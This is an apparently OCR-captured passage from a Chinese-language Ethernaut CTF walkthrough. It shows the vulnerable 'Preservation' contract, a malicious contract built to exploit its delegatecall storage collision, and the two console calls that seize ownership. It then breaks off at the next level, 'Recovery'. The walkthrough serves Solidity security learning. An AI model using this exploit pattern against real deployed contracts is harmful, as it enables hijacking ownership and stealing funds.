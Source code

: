         // set the time for timezone 2
        function setSecondTime(uint _timeStamp) public {
          timeZone2Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
        }
      }
      
      // Simple library contract to set the time
      contract LibraryContract {
      
        // stores a timestamp 
        uint storedTime;  
      
        function setTime(uint _time) public {
          storedTime = _time;
        }
      }
      
      ```

      分为两个时区库,

      ```
      // 分时区调用 LibraryContract的setTime 调用后会修改
      timeZone1Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));

      新建恶意合约

      ```solidity
      // SPDX-License-Identifier: MIT
      pragma solidity ^0.8.0;
      
      contract PreservationHack {
      
          address public timeZone1Library; // slot 0
          address public timeZone2Library; // slot 1
          address public owner; // slot 2
          uint storedTime; // slot 3
      
          function setTime(uint256 _time) public {
              owner = msg.sender;
          }
      }
      ```

      ```
      //调用后更新 timeZone1Library为恶意合约地址
      await contract.setFirstTime('<malicious_contract_address>')
      // 再次调用时setTime更新为恶意地址,调用后成功修改owner
      await contract.setFirstTime(1337)
      ```

18.   Recovery

      ```solidity
      // SPDX-License-Identifier: MIT
      pragma solidity ^0.8.0;
      
      contract Recovery {
      